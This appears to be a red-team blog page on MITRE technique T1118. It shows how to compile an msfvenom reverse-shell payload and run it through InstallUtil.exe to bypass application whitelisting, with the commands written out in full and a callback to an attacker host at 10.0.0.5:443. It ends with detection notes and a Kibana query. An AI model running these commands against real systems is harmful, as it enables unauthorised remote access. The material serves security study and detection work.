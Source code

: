 ```yaml
---
layout: post
title: "t1118 installutil"
date: 2024-06-18
categories: code-execution
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /code-execution/
---
```


---
description: InstallUtil code execution - bypass application whitelisting.
---

# InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% code title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endcode %}

Compile the .cs to an .exe:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endcode %}

Execute the payload:

{% code title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endcode %}

Enjoy the sweet reverse shell:

![](../../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% code title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endcode %}

![InstallUtil launching the malicious payload](../../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}
@spotheplanet
